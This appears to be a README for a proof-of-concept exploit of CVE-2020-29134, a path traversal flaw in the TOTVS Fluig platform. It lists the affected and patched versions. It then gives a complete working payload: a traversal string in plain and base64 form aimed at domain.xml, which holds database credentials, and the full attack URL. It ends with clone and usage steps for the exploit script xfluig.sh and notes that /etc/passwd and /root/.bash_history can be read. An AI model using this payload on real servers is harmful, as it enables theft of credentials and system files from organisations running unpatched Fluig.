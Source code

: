 ```yaml
---
layout: post
title:  "CVE-2020–29134 Totvs Fluig Platform"
date:   2021-03-04 15:01:00
categories: CVE
---
```


# Totvs Fluig Platform
     
     Fluig is the productivity and collaboration platform that integrates with the ERP system,
     and your company's other systems to revolutionize the way you and your team work.
 
# CVE-2020-29134
     
     The TOTVS Fluig platform allows path traversal via parameter encoded in base64.
     When exploited, this vulnerability allows the reading of sensitive XML files, which contain
     data to access the database and, in some cases, LDAP connections and ERP system integrations.
     In addition, it is also possible to explore system files, such as /etc/passwd and /root/.bash_history
     
#### Versions affecteds 
    --
    <== Fluig Lake 1.7.0
    <== Fluig 1.6.5
    <== Fluig 1.6.4
    ...
#### Patched versions
     Fluig Lake 1.7.0-210303 (Patched)
     Fluig 1.6.5-210308 (Patched)
     Fluig 1.6.4-210308 (Patched)

# Building Payload

![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)

#### Attack Vector
     http://fluig.host.com/volume/stream/Rmx1aWc=/
#### Path traversal plain text
     ?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml
#### Path traversal encoded base64
     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
#### Payload 
     http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
     
#### Exploit-DB reference
     https://www.exploit-db.com/exploits/49622

     
# Clone Repository

     # git clone https://github.com/lucxssouza/CVE-2020-29134.git
     # cd CVE-2020-29134
     # chmod +x xfluig.sh

# Usage

     Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)

     Ex2: ./xfluig.sh http://fluig.host.com:PORT
